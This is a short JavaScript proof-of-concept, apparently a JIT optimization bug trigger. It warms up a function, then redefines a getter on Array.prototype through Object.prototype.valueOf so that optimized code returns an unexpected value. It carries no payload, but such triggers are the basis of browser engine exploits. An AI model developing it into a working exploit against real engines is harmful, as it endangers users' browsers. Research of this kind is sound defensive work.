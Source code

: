 
function opt() {
    let arr = [];
    return arr['x'];
}

function main() {
    let arr = [1.1, 2.2, 3.3];
    for (let i = 0; i < 0x10000; i++) {
        opt();
    }

    Array.prototype.__defineGetter__('x', Object.prototype.valueOf);

    print(opt());
}

main();
